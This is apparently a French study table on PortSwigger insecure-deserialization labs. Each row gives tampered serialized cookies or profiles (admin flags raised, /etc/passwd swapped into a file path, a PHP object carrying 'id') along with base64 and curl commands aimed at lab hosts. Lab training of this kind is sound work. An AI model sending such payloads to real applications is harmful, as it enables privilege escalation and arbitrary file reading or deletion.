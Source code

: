 # Insecure deserialization

Voici le tableau synthétique pour l’analyse des failles d’**insecure deserialization**, chaque champ étant condensé sur un seul paragraphe, sans numérotation ni indentation, avec pour chaque scénario un **exemple de commande d’analyse complète** (valeur de session réaliste, URL complète PortSwigger, etc.) :

---

| Type / Lab | Payload d’attaque neutre (exemple étoffé) | Commande d’attaque (complète, sans Burp) | Commande(s) d’analyse (exemple complet, sans Burp) | Élément d’analyse (raison préalable) | Méthodologie détaillée de découverte | URL PortSwigger |
|---|---|---|---|---|---|---|
| **Modification d’objet sérialisé dans un cookie** | Un cookie sérialisé en Base64 peut contenir par exemple {"admin":false,"user":"carlos","roles":["user"],"expires":"2025-05-01T12:00:00Z"} ; le payload d’attaque neutre consiste à modifier "admin":false en "admin":true, à ajouter "roles":["admin","user"] et à prolonger la date d’expiration, pour tester la prise en compte de plusieurs attributs sensibles lors de la désérialisation sans introduire de code malveillant ni structure inattendue. | echo '{"admin":true,"user":"carlos","roles":["admin","user"],"expires":"2026-01-01T00:00:00Z"}' | base64  # renvoie eyJhZG1pbiI6dHJ1ZSwidXNlciI6ImNhcmxvcyIsInJvbGVzIjpbImFkbWluIiwidXNlciJdLCJleHBpcmVzIjoiMjAyNi0wMS0wMVQwMDowMDowMFoifQ== ; curl -b "session=eyJhZG1pbiI6dHJ1ZSwidXNlciI6ImNhcmxvcyIsInJvbGVzIjpbImFkbWluIiwidXNlciJdLCJleHBpcmVzIjoiMjAyNi0wMS0wMVQwMDowMDowMFoifQ==" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/ | curl -b "session=eyJhZG1pbiI6dHJ1ZSwidXNlciI6ImNhcmxvcyIsInJvbGVzIjpbImFkbWluIiwidXNlciJdLCJleHBpcmVzIjoiMjAyNi0wMS0wMVQwMDowMDowMFoifQ==" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/admin | Vérifier si l’application accorde des privilèges ou modifie la session simplement sur la base d’attributs modifiés dans un objet sérialisé côté client, révélant l’absence de vérification d’intégrité ou d’authenticité du contenu du cookie. | Identifier un objet sérialisé dans un cookie, modifier plusieurs attributs de privilège ou de session puis réinjecter ce cookie pour observer si l’application applique effectivement la modification lors de la désérialisation. | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects |
| **Injection de chemin de fichier dans un objet sérialisé** | Un objet sérialisé en Base64 peut contenir {"user":"carlos","image_location":"/images/profile.png","backup":["/backups/backup1.bak"]} ; le payload neutre consiste à remplacer "image_location" par "/etc/passwd" et à ajouter "/tmp/test.txt" dans "backup", pour tester la prise en compte de plusieurs chemins lors de la désérialisation sans introduire de structure inattendue ni code. | echo '{"user":"carlos","image_location":"/etc/passwd","backup":["/backups/backup1.bak","/tmp/test.txt"]}' | base64  # renvoie eyJ1c2VyIjoiY2FybG9zIiwiaW1hZ2VfbG9jYXRpb24iOiIvZXRjL3Bhc3N3ZCIsImJhY2t1cCI6WyIvYmFja3Vwcy9iYWNrdXAxLmJhayIsIi90bXAvdGVzdC50eHQiXX0= ; curl -X POST -d "profile=eyJ1c2VyIjoiY2FybG9zIiwiaW1hZ2VfbG9jYXRpb24iOiIvZXRjL3Bhc3N3ZCIsImJhY2t1cCI6WyIvYmFja3Vwcy9iYWNrdXAxLmJhayIsIi90bXAvdGVzdC50eHQiXX0=" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/user/delete | curl -X POST -d "profile=eyJ1c2VyIjoiY2FybG9zIiwiaW1hZ2VfbG9jYXRpb24iOiIvZXRjL3Bhc3N3ZCIsImJhY2t1cCI6WyIvYmFja3Vwcy9iYWNrdXAxLmJhayIsIi90bXAvdGVzdC50eHQiXX0=" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/user/delete | Déterminer si l’application utilise directement des chemins de fichiers issus d’objets sérialisés sans validation, ce qui peut permettre des attaques de type path traversal ou suppression/lecture de fichiers arbitraires. | Rechercher dans l’objet sérialisé des attributs utilisés pour des opérations sur le système de fichiers, modifier la valeur pour pointer vers un ou plusieurs fichiers sensibles, puis déclencher une action serveur pour observer si le comportement est influencé par cette modification. | https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization |
| **Test d’exécution de code avec payload sérialisé** | Un payload neutre peut être un objet PHP sérialisé comme O:8:"stdClass":1:{s:7:"command";s:2:"id";} ou un objet Java sérialisé avec un champ "command" contenant "whoami" ou "id", sans gadget d’exécution ; ce type de payload permet de vérifier si le champ est traité ou loggé sans déclencher d’exécution directe, avant de tester des gadgets plus agressifs. | echo 'O:8:"stdClass":1:{s:7:"command";s:2:"id";}' | base64  # renvoie Tzo4OiJzdGRDbGFzcyI6MTp7czo3OiJjb21tYW5kIjtzOjI6ImlkIjt9 ; curl -b "session=Tzo4OiJzdGRDbGFzcyI6MTp7czo3OiJjb21tYW5kIjtzOjI6ImlkIjt9" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/ | curl -b "session=Tzo4OiJzdGRDbGFzcyI6MTp7czo3OiJjb21tYW5kIjtzOjI6ImlkIjt9" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/ | Déterminer si des champs sensibles sont traités par l’application lors de la désérialisation, avant d’introduire un gadget d’exécution de code, ce qui permet une approche progressive et moins intrusive. | Injecter un objet sérialisé avec un champ potentiellement sensible ou utilisé dans la logique applicative, puis observer la réponse ou les logs pour voir si ce champ est pris en compte, avant d’aller plus loin dans l’exploitation. | https://portswigger.net/web-security/deserialization/exploiting |
| **Changement de type d’objet dans la structure sérialisée** | Un objet sérialisé en Base64 peut contenir {"type":"user","user":"carlos","permissions":["read"]} ; le payload neutre consiste à remplacer "type":"user" par "type":"admin" et à ajouter "permissions":["read","write","delete"], pour tester si la logique applicative s’appuie sur ces champs sans vérification. | echo '{"type":"admin","user":"carlos","permissions":["read","write","delete"]}' | base64  # renvoie eyJ0eXBlIjoiYWRtaW4iLCJ1c2VyIjoiY2FybG9zIiwicGVybWlzc2lvbnMiOlsicmVhZCIsIndyaXRlIiwiZGVsZXRlIl19 ; curl -b "session=eyJ0eXBlIjoiYWRtaW4iLCJ1c2VyIjoiY2FybG9zIiwicGVybWlzc2lvbnMiOlsicmVhZCIsIndyaXRlIiwiZGVsZXRlIl19" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/ | curl -b "session=eyJ0eXBlIjoiYWRtaW4iLCJ1c2VyIjoiY2FybG9zIiwicGVybWlzc2lvbnMiOlsicmVhZCIsIndyaXRlIiwiZGVsZXRlIl19" https://0a9b00c504e5fef4c12e4e2d00c100c1.web-security-academy.net/admin | Vérifier si le champ de type ou de permissions dans l’objet sérialisé est utilisé sans contrôle côté serveur, permettant ainsi une élévation de privilèges ou un changement de comportement applicatif. | Identifier un champ de type ou de rôle dans la structure sérialisée, le modifier pour simuler un utilisateur avec des privilèges différents, puis observer si l’application accorde de nouveaux droits ou modifie son comportement en fonction de ce champ. | https://portswigger.net/web-security/deserialization/exploiting |

---

